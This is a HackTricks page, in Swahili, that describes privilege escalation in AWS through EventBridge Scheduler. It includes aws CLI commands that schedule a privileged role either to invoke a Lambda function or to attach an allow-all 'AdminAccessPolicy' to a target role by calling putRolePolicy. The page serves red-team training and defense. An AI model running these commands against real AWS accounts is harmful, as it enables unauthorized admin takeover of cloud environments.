 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler inaweza kutumika kwa ajili ya kupandisha hadhi kwa kupanga simu kwa huduma mbalimbali za AWS. Kwa kutumia uwezo wake wa kuita huduma kwa msingi wa ratiba, watumiaji wenye ruhusa za kutosha wanaweza kupandisha hadhi. Hapa kuna baadhi ya hatua muhimu ambazo EventBridge Scheduler inaweza kuchochea kwa kutumia malengo yaliyotengenezwa:

- Lambda: lambda:InvokeFunction - Kuita kazi za Lambda kwa ratiba.
- CodeBuild: codebuild:StartBuild - Anza miradi ya AWS CodeBuild.
- CodePipeline: codepipeline:StartPipelineExecution - Chochea utekelezaji wa AWS CodePipeline.
- ECS: ecs:RunTask - Endesha kazi za ECS.
- EventBridge: events:PutEvents - Weka matukio ndani ya EventBridge.
- Inspector: inspector:StartAssessmentRun - Anza tathmini za Amazon Inspector.
- Kinesis: kinesis:PutRecord - Weka rekodi ndani ya Kinesis streams.
- Firehose: firehose:PutRecord - Weka rekodi ndani ya Firehose delivery streams.
- SageMaker: sagemaker:StartPipelineExecution - Anza utekelezaji wa SageMaker pipeline.
- SNS: sns:Publish - Chapisha ujumbe kwenye mada za SNS.
- SQS: sqs:SendMessage - Tuma ujumbe kwenye foleni za SQS.
- Step Functions: states:StartExecution - Anza utekelezaji wa AWS Step Functions.

Hizi ni baadhi tu ya hatua zilizotengenezwa ambazo EventBridge Scheduler inaweza kutekeleza. Hata hivyo, kwa kutumia malengo ya ulimwengu wote, hatua nyingi nyingine katika huduma za AWS zinaweza kuitwa. Malengo ya ulimwengu wote yanaruhusu operesheni za API zaidi ya orodha iliyotengenezwa.

Maelezo zaidi kuhusu EventBridge Scheduler katika:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Watumiaji wenye ruhusa za `sts:AssumeRole`, `iam:PassRole`, na `scheduler:CreateSchedule or scheduler:UpdateSchedule` wanaweza kupandisha hadhi kwa kutumia EventBridge Scheduler kuitisha huduma kwa kutumia jukumu lenye hadhi ya juu.

Kwa ruhusa hizi, mshambuliaji anaweza kuchukua jukumu lenye hadhi ya juu na kupitisha jukumu hilo kwa EventBridge Scheduler wakati wa kuunda au kuboresha ratiba. Ratiba inaweza kuandaliwa ili kutekeleza yoyote ya hatua zilizoorodheshwa hapo awali, kama vile kuita kazi za Lambda, kuanzisha kazi za ECS, kuchochea utekelezaji wa CodePipeline, au operesheni yoyote ya huduma 270 za AWS zinazoungwa mkono na EventBridge Scheduler. Kwa kupanga hatua hizi, mshambuliaji anaweza kutumia hadhi ya juu kufanya operesheni zisizoidhinishwa katika huduma za AWS.
\\

Kwa mfano, wanaweza kuandaa ratiba kuitisha kazi ya Lambda ambayo ni hatua iliyotengenezwa:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Mbali na hatua za huduma zilizotengenezwa, unaweza kutumia malengo ya ulimwengu katika EventBridge Scheduler ili kuitisha anuwai kubwa ya operesheni za API kwa huduma nyingi za AWS. Malengo ya ulimwengu yanatoa kubadilika kuitisha karibu API yoyote. Mfano mmoja unaweza kuwa kutumia malengo ya ulimwengu kuongeza "AdminAccessPolicy", ukitumia jukumu ambalo lina sera ya "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
